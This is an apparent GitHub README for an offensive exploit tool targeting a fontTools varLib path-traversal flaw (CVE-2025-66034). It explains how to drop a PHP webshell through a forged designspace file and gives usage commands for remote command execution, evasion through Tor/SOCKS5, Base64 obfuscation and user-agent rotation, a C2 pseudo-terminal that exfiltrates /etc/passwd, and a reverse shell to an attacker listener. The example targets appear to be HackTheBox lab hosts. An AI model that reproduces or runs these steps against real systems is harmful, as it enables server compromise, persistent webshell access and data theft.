

<p align="center">
  
</p>

<p align="center">
<pre>
███████╗███████╗ ██████╗  ██████╗██╗███████╗████████╗██╗   ██╗
██╔════╝██╔════╝██╔═══██╗██╔════╝██║██╔════╝╚══██╔══╝╚██╗ ██╔╝
█████╗  ███████╗██║   ██║██║     ██║█████╗     ██║    ╚████╔╝ 
██╔══╝  ╚════██║██║   ██║██║     ██║██╔══╝     ██║     ╚██╔╝  
██║     ███████║╚██████╔╝╚██████╗██║███████╗   ██║      ██║   
╚═╝     ╚══════╝ ╚═════╝  ╚═════╝╚═╝╚══════╝   ╚═╝      ╚═╝
[ SECTOR_0x01_ALPHA: CVE-2025-66034 - FONTTOOLS_VARLIB_ENGINE ]
</pre>
</p>

<div align="center">

# <samp>Fsociety_CVE-2025-66034</samp>

**<samp>Surgical Typography Subversion | Arbitrary File Write & Polyglot RCE</samp>**


<samp>Architect: <a href="https://github.com/fsoc-ghost-0x">C0deGhost</a> | Version: 20.2 (FINAL EDITION) | <a href="https://attack.mitre.org/techniques/T1203/">MITRE T1203</a></samp>

</div>

<div align="center">


<br>
<h2><samp><strong><font color="#ff0000">>> EXPLOIT GLOBAL APT EDITION <<</font></strong></samp></h2>

</div>


<details>
<summary><code>Click to view Table of Contents Fsociety</code></summary>

<br>

- [▌ 0x01_ANALYSIS_&_VULNERABILITY_REPORT](#-0x01_analysis__vulnerability_report)
- [▌ 0x02_MITRE_ATT&CK_MAPPING](#-0x02_mitre_attck_mapping)
- [▌ 0x03_FEATURES_&_ARSENAL](#-0x03_features__arsenal)
- [▌ 0x04_USAGE_&_EXECUTION](#-0x04_usage__execution)
- [▌ 0x05_EXECUTION_&_EVIDENCES](#-0x05_execution__evidences)
- [▌ 0x06_FRAMEWORK_OPTIONS](#-0x06_framework_options)
- [▌ 0x07_LEGAL_DISCLAIMER](#-0x07_legal_disclaimer)

</details>


<br>

## <samp>▌ <u>0x01_ANALYSIS_&_VULNERABILITY_REPORT</u></samp>

<details open>
  <summary><code>Click to expand Fsociety Intel Report...</code></summary>
  
  ### <samp>Executive Summary</samp>

  <samp>
  This framework weaponizes **CVE-2025-66034**, a catastrophic logic flaw within the <code>fontTools.varLib</code> module. The vulnerability permits an attacker to chain an unsanitized Path Traversal with XML Data Injection inside a <code>.designspace</code> file, forcing the backend compiler to write a polyglot PHP webshell to an arbitrary directory.
  
  The <code>Fsociety_CVE-2025-66034.py</code> weapon automates the entire forensic generation of the payload. It mathematically bypasses interpolation checks by forging perfect dummy TrueType fonts, injects the payload via CDATA evasion, and provides a multi-threaded Pseudo-Terminal (PTY) C2 environment to dominate the host.
  </samp>

  ### <samp>Forensic Code Dissection (The Root Cause)</samp>
  
  <samp>
  The exploit dismantles three independent layers of the <code>varLib</code> engine:
  </samp>
  
  **<samp>1. The Path Traversal (Delivery):</samp>**
  <samp>
  The <code>varLib</code> compiler blindly extracts the <code>filename</code> attribute from the <code>&lt;variable-font&gt;</code> XML tag and concatenates it via <code>os.path.join()</code>. By injecting <code>../../../../var/www/html/shell.php</code>, we break out of the intended output directory.
  </samp>

  **<samp>2. The CDATA Injection (Payload):</samp>**
  <samp>
  Standard PHP tags (<code>&lt;?php</code>) crash the XML parser (e.g., <code>lxml</code>). We bypass DOM sanitization by wrapping our payload inside a <code>&lt;![CDATA[...]]&gt;</code> block within the <code>&lt;labelname&gt;</code> tag of an axis. The compiler writes this raw string directly into the compiled font binary.
  </samp>

  **<samp>3. The Geometry Evasion (Compiler Bypass):</samp>**
  <samp>
  <code>varLib</code> demands master fonts with identical node geometries for interpolation. The exploit utilizes <code>fontTools.fontBuilder</code> to forge two mathematically identical dummy TTF files in memory, differing only in metadata. This suppresses all <code>VarLibError</code> exceptions, ensuring the compilation completes and the payload drops.
  </samp>
  
  <div align="center">
    <br>
    <i><font color="#888888" face="monospace">"They trusted the designer. We are the architects."</font></i>
  </div>

</details>

<br>

## <samp>▌ <u>0x02_MITRE_ATT&CK_MAPPING</u></samp>

- **<samp>Tactic:</samp>** <samp><a href="https://attack.mitre.org/tactics/TA0002/">Execution</a> / <a href="https://attack.mitre.org/tactics/TA0003/">Persistence</a></samp>
- **<samp>Technique:</samp>** <samp><a href="https://attack.mitre.org/techniques/T1203/">Exploitation for Client Execution</a></samp>
- **<samp>Technique:</samp>** <samp><a href="https://attack.mitre.org/techniques/T1505/003/">Server Software Component: Web Shell</a></samp>

<br>

---

### <samp>Visual Attack Flow (The Kill Chain)</samp>



<br>

## <samp>▌ <u>0x03_FEATURES_&_ARSENAL</u></samp>

- **<samp>🎬 God Mode Cinematic UI:</samp>** <samp>Mr. Robot inspired boot sequences, Matrix rain, glitch effects, and an advanced OPSEC HUD displaying Entropy and Stealth levels.</samp>
- **<samp>🌐 Ghost Network Routing:</samp>** <samp>Native integration for SOCKS5/Tor proxies to obfuscate origin traffic (<code>--proxy</code>).</samp>
- **<samp>💀 Base64 Polymorphism:</samp>** <samp>Bypasses deep packet inspection (DPI) and strict WAFs by evaluating Base64 encoded payloads in PHP (<code>--obfuscate</code>).</samp>
- **<samp>🧠 Interactive PTY Macro-Shell:</samp>** <samp>A custom command-and-control loop featuring persistent state tracking, and macro functions (<code>!recon</code>, <code>!upload</code>, <code>!download</code>, <code>!ghost</code>).</samp>
- **<samp>🗺️ Visual Traversal Map (VTM):</samp>** <samp>Real-time visual rendering of the structural directory jump (Path Traversal analysis).</samp>
  
<div align="center">
  <br>
  <i><font color="#888888" face="monospace">"A tool is only as good as the ghost who wields it."</font></i>
</div>

<br>

## <samp>▌ <u>0x04_USAGE_&_EXECUTION</u></samp>

<details>
  <summary><code>Click to view Fsociety Operational Directives...</code></summary>
  
  ### <samp>STAGE 1: BASIC RCE & UI VERIFICATION</samp>
  <samp>Test forge logic, Visual Traversal Mapping (VTM), and single-command execution.</samp>
  ```bash
  python3 Fsociety_CVE-2025-66034.py \
    --target "http://portal.variatype.htb" \
    --path "/var/www/portal.variatype.htb/public/files/Fsociety.php" \
    --webshell "/files/Fsociety.php" \
    --cmd "id; whoami; hostname"
  ```

  ### <samp>STAGE 2: STEALTH & GHOST NETWORK (OPSEC)</samp>
  <samp>Test remote DNS resolution, Base64 polymorphism, and User-Agent rotation.</samp>
  ```bash
  python3 Fsociety_CVE-2025-66034.py \
    --target "http://portal.variatype.htb" \
    --proxy "socks5://127.0.0.1:9050" \
    --obfuscate \
    --random-agent \
    --cmd "uname -a"
  ```

  ### <samp>STAGE 3: INTERACTIVE PTY & COMMAND CONTROL (C2)</samp>
  <samp>Enter the Pseudo-Terminal and deploy internal macros for post-exploitation dominance.</samp>
  ```bash
  python3 Fsociety_CVE-2025-66034.py \
    --target "http://portal.variatype.htb" \
    --shell-mode \
    --log-session "mission_log.json"
  ```
  <samp><i>Inside the PTY:</i></samp>
  <samp>1. <code>!help</code> -> Manifest verification.</samp>
  <samp>2. <code>!recon</code> -> Automated kernel/SUID extraction.</samp>
  <samp>3. <code>cd /etc</code> -> Directory state persistence check.</samp>
  <samp>4. <code>!upload local.txt /tmp/remote.txt</code> -> Base64 drop.</samp>
  <samp>5. <code>!download /etc/passwd loot.txt</code> -> Exfiltration.</samp>
  <samp>6. <code>!ghost</code> -> Screen purge.</samp>

  ### <samp>STAGE 4: AUTOMATED REVERSE SHELL EXPANSION</samp>
  <samp>Deploy an interactive reverse bash shell directly to your listener.</samp>
  ```bash
  python3 Fsociety_CVE-2025-66034.py \
    --target "http://portal.variatype.htb" \
    --reverse "10.10.14.x:4444" \
    --cleanup
  ```

  ### <samp>STAGE 5: DEBUG & ERROR HANDLING</samp>
  <samp>Force telemetry output for advanced forensic troubleshooting.</samp>
  ```bash
  python3 Fsociety_CVE-2025-66034.py \
    --target "http://host-que-no-existe.htb" \
    --debug
  ```

</details>

<br>

## <samp>▌ <u>0x05_EXECUTION_&_EVIDENCES</u></samp>

<details open>
  <summary><code>Click to expand Proof of Concept Gallery...</code></summary>

  ### <samp>1. Initialization & Help Protocol</samp>
  <samp>Accessing the Fsociety C2 matrix and operational parameters.</samp>
  <p align="center">
    
  </p>

  ### <samp>2. Deep Trace Forensics (Debug Mode)</samp>
  <samp>Real-time tracking of memory allocation and vulnerability detonation logic.</samp>
  <p align="center">
    
  </p>

  ### <samp>3. Handshake & Ghost Network (Tor/SOCKS5)</samp>
  <samp>Establishing the proxy circuit and OPSEC HUD verification.</samp>
  <p align="center">
    
  </p>
  
  ### <samp>4. Payload Delivery & Target Confirmation</samp>
  <samp>Verifying the execution of the polyglot file on the remote server.</samp>
  <p align="center">
    
  </p>

  ### <samp>5. Stage 1: Remote Command Execution</samp>
  <samp>Surgical injection of commands via HTTP POST.</samp>
  <p align="center">
    
  </p>

  ### <samp>6. Stage 3: Fsociety Interactive PTY (C2)</samp>
  <samp>Deploying post-exploitation macros inside the pseudo-terminal.</samp>
  <p align="center">
    
  </p>

  ### <samp>7. Stage 4: Reverse Shell Expansion</samp>
  <samp>Absolute dominance. Reverse connection established.</samp>
  <p align="center">
    
  </p>

</details>

<br>

## <samp>▌ <u>0x06_FRAMEWORK_OPTIONS</u></samp>

<details>
  <summary><code>Click to view full Command Line Interface...</code></summary>

  <br>

  ### <samp>Configuration Parameters</samp>

  | <samp>Flag</samp> | <samp>Type</samp> | <samp>Description</samp> |
  | :--- | :--- | :--- |
  | <samp><code>--path &lt;PATH&gt;</code></samp> | <samp><font color="red">REQUIRED</font></samp> | <samp>Absolute/Relative destination path for the Path Traversal.</samp> |
  | <samp><code>--output &lt;FILE&gt;</code></samp> | <samp><font color="green">OPTIONAL</font></samp> | <samp>Local filename for the forged .designspace XML.</samp> |
  | <samp><code>--php-func &lt;FUNC&gt;</code></samp> | <samp><font color="green">OPTIONAL</font></samp> | <samp>PHP execution function to embed (system, shell_exec, passthru).</samp> |
  | <samp><code>--obfuscate</code></samp> | <samp><font color="cyan">OPSEC</font></samp> | <samp>Encrypt the PHP payload using Base64 evasion techniques.</samp> |
  | <samp><code>--target &lt;URL&gt;</code></samp> | <samp><font color="red">REQUIRED</font></samp> | <samp>Target base URL for connection verification and interaction.</samp> |
  | <samp><code>--webshell &lt;PATH&gt;</code></samp> | <samp><font color="red">REQUIRED</font></samp> | <samp>The relative path on the webserver to reach the dropped payload.</samp> |
  | <samp><code>--cookie &lt;DATA&gt;</code></samp> | <samp><font color="green">OPTIONAL</font></samp> | <samp>Inject a session Cookie for authenticated environments.</samp> |
  | <samp><code>--proxy &lt;PROXY&gt;</code></samp> | <samp><font color="cyan">OPSEC</font></samp> | <samp>Route traffic through Tor or SOCKS5 (e.g., socks5://127.0.0.1:9050).</samp> |
  | <samp><code>--random-agent</code></samp> | <samp><font color="cyan">OPSEC</font></samp> | <samp>Rotate User-Agent strings from an elite internal list.</samp> |
  | <samp><code>--shell-mode</code></samp> | <samp><font color="orange">ATTACK</font></samp> | <samp>Activate the persistent Pseudo-Terminal C2 loop.</samp> |
  | <samp><code>--reverse &lt;IP:PORT&gt;</code></samp> | <samp><font color="orange">ATTACK</font></samp> | <samp>Inject and execute a Base64 encoded Reverse Shell.</samp> |
  | <samp><code>--cmd &lt;COMMAND&gt;</code></samp> | <samp><font color="orange">ATTACK</font></samp> | <samp>Command for initial verification (Ignored in shell-mode).</samp> |
  | <samp><code>--cleanup</code></samp> | <samp><font color="green">OPTIONAL</font></samp> | <samp>Purge generated .ttf and .designspace artifacts locally.</samp> |
  | <samp><code>--no-trigger</code></samp> | <samp><font color="green">OPTIONAL</font></samp> | <samp>Skip local validation of the varLib compilation.</samp> |
  | <samp><code>--no-verify</code></samp> | <samp><font color="green">OPTIONAL</font></samp> | <samp>Skip perimeter WAF fingerprinting and target reachability checks.</samp> |
  | <samp><code>--debug</code></samp> | <samp><font color="cyan">OPSEC</font></samp> | <samp>Real-time forensic telemetry, traceback printing, and raw HTTP logs.</samp> |

</details>

<br>

## <samp>▌ <u>0x07_LEGAL_DISCLAIMER</u></samp>
<samp>
This weaponized script is intended for authorized penetration testing, red teaming engagements, and educational research only. Unauthorized use against computer systems is illegal and violates the <code>Fsociety00_alderson_core.dat</code> protocols. Use with absolute discretion.
</samp>
<br>
<i><font color="#888888" face="monospace">"The unpatchable vulnerability is human error."</font></i>

---

<p align="center">
  <samp><strong><font color="#ff4500">WE ARE FSOCIETY. WE ARE FINALLY FREE. WE ARE FINALLY AWAKE.</font></strong></samp>
</p>
